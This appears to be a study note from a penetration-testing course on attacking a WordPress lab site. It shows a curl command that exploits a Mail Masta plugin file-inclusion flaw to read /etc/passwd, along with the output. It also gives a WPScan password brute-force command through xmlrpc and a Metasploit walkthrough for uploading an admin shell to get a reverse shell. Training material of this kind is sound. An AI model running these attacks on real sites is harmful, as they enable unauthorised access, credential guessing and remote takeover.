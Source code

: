 # Exploitation

## Vulnerable plugin

### Leveraging WPScan results

The following report generated by WPScan tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called `Twenty Twenty`. WPScan identified two vulnerable plugins, `Mail Masta 1.0` and `Google Review Slider`. This version of the `Mail Masta` plugin is known to be vulnerable to SQLi as well as _Local File Inclusion_ (_LFI_). The report output also contains URLs to PoCs, which provide information on how to exploit these vulnerabilities.

Let's verify if the LFI can be exploited based on this [exploit-db report](https://academy.hackthebox.com/module/17/section/44). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

#### LFI using browser

![browser](image.png)

We can validate this vulnerability using cURL on the CLI:

```console
$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

## User bruteforce

WPScan can be used to brute force usernames and passwords. It can use `xmlrpc` (WordPress API through `/xmlrpc.php`) and `wp-login` (WordPress login page) methods.

:::tip
The `xmlrpc` method is preferred as it is faster.
:::

```console
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

## Metasploit

### Reverse shell

We can obtain a reverse shell using valid credentials for an account that has sufficient rights to create files on the webserver.

```console
$ msfconsole
$ msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

The number `0` in the search results represents the ID for the suggested modules.

```console
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >

msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

After using the `set` command to make the necessary modifications, we can use the `run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.

